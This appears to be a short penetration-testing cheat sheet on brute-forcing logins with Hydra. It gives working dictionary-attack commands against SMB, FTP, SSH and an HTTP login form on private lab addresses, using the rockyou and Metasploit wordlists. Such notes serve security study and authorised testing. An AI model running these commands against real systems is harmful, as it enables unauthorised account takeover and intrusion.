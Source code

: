 
# Overview
Brute force logins

# Options
- -l/L : username/user File
- -p/P : password/password File

---

# Service Examples

## SMB

`hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.33.3 smb`
*lower* case to give string and *upper* case to pass in file
- -l admin : username
- -P /wordlist.txt : pass in wordlist

---

## FTP
dictionary attack with *userlist* and *passlist*
```bash
hydra -L /usr/share/metasploit-framework/data/wordlist/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.168.24.3 ftp
```

---

## SSH
dictionary attack
`hydra -l student -P /usr/share/wordlist/rockyou.txt 192.168.7.3 ssh`

---

## Http-Form
http-post-form "login page : post data : error check"
```bash
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"
```